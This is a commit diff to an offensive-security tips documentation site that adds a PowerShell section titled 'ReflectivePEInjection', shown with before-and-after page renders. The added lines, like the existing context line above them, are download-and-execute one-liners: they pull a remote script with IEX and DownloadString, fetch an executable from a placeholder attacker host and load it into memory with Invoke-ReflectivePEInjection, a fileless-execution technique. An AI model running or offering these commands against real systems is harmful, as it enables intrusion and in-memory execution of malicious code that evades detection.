

Before and after one commit to vincd/security-tips, an MkDocs documentation site: the page built from docs/powershell.md, in a window 1280 px wide and 900 px high, scrolled down 604 px. Built offline with MkDocs 1.6.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add Invoke-ReflectivePEInjection

````diff
--- a/docs/powershell.md
+++ b/docs/powershell.md
@@ -31,6 +31,17 @@ On the remote host, execute the following PowerShell script:
 
 ```powershell
 IEX(New-Object System.Net.WebClient).DownloadString('http://<ip>:<port>/<script_name.ps1>')
+```
+
+
+## ReflectivePEInjection
+
+Start an executable from memory:
+
+```powershell
+IEX (New-Object System.Net.WebClient).DownloadString("https://security-tips.vincd.com/assets/Invoke-ReflectivePEInjection.ps1")
+$ExeBytes = IWR "http://<ip>:<port>/x.exe" | Select-Object -ExpandProperty Content
+Invoke-ReflectivePEInjection -PEBytes $ExeBytes
 ```
 
 
````
Also changed, not shown: 1 other file.
